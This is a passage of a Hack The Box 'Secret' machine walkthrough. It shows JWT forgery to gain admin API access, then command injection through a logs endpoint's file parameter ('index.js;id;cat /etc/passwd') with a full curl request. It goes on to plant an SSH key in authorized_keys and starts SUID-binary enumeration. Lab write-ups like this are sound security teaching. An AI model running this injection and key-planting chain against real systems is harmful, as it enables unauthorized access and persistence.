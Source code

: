 So I was interested to know what was happening. I went back to the working try and decided to view information of this commit ```git diff HEAD~2```

![](https://i.imgur.com/Djs2pg9.png)

I tried using this by going back to jwt.io and changing the username to ```theadmin``` and testing the generated JWT against ```/api/priv``` endpoint, to verify if the bypass worked.

Yeet it worked.


---
Now with access to the admin page, we can use it to look at the ```/api/logs``` endpoint and gain access to the server.
## Obtaining a foothold
We can chain several bash commands like ```id``` to know the user running the application, ```/etc/passwd``` in order to obtain the user passwords and ```file``` in order curl to accept Get parameter. So the URL will look like this : ```10.10.11.120/api/logs?file=index.js;id;cat+ /etc/ passwd```

```
┌─[r00t@parrot]─[~/Downloads/htb/secret/jwt_tool]
└──╼ $curl -i \
> -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MTdlMjgxZWU2N2QzZTA4NTMzOGEzZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3R1c2VyQGRhc2l0aC53b3JrcyIsImlhdCI6MTYzNTY1Nzg1N30.SZzvY3RD0x763smkiImsSs6WKMMMxjfr9mMOslRNGzY' \
> 'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
This was successful since it dumped all the info we wanted. Now it's time to utilize port 22 and ssh to the machine.

### Exploitation
We can generate a new ssh key which we will use to login into the machine and avoid using our main ssh key.
```ssh-keygen -t rsa -b 4096 -C 'drt@htb' -f secret.htb -P ''```

![](https://i.imgur.com/2lST9RU.png)

As we can see, in my case I had another key that I have overwritten. This was created when I first tried solving this machine.
The command generates a new SSH public and private key in the current directory named secret.htb.

To ensure that the public key is added, we can use these commands in a root shell.
* ```mkdir -p /home/dasith/.ssh```
* ``` echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys```

Now we can store the content of our public key in a variable for easy adding.
```export PUBLIC_KEY=$(cat secret.htb.pub)```
So now we can execute our last curl command to add our keys to the server for easy SSH.

![](https://i.imgur.com/WCN3P0c.png)

We received a 200 OK, meaning it worked. Yaay
### Gaining user
Now we can SSH to the machine and get that user hash

![](https://i.imgur.com/woKANty.png)

Now it's time to root this machine.

### Privilege Escalation
Trying linpeas and linEnum, they failed, so i tried exploiting SUID binaries ```find / -type f -perm -u=s 2>/dev/null```.
We find this interesting file ```/opt/count```. looking at the dir, we find that we are also provided with a source code.
```